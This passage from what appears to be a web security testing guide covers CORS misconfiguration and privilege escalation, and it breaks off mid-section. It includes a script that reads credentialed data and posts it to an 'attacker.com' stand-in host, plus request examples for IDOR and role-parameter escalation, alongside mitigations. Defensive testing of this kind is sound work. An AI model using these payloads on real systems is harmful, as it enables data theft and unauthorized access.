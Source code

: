 ```bash
<script>
fetch('https://api.example.com/sensitive-data', {
    credentials: 'include'
})
.then(r => r.json())
.then(data => {
    // Send stolen data to attacker
    fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
    });
});
</script>
```

**Expected Output**: CORS should only allow trusted origins.

**Vulnerability Confirmation**:
```
Misconfigurations:
- Access-Control-Allow-Origin: *
  + Access-Control-Allow-Credentials: true
  = Severe vulnerability!

- Null origin accepted
- Regex bypass in origin validation
- All subdomains trusted
- Reflected origin without validation
```

**Generic Mitigation**:
- Whitelist specific trusted origins
- Never use wildcard with credentials
- Validate Origin header server-side
- Don't reflect Origin without checks
- Reject null origin
- Use strict subdomain validation
- Implement SameSite cookies
- Regular CORS policy reviews

---

### 34. Privilege Escalation

**Issue Description**: Users can elevate their privileges to access unauthorized functionality.

**Execution Steps**:
```bash
# Test privilege escalation:

# Horizontal escalation (same role, different user)
1. Login as User A
2. Capture request to modify User A's data:
   PUT /api/users/123 {"name": "New Name"}
3. Change user ID to another user:
   PUT /api/users/456 {"name": "Hacked"}
4. Check if modification successful

# Vertical escalation (to admin/higher role)

# Method 1: Parameter manipulation
POST /api/users/update
{
  "userId": 123,
  "role": "admin"  # Add admin role
}
```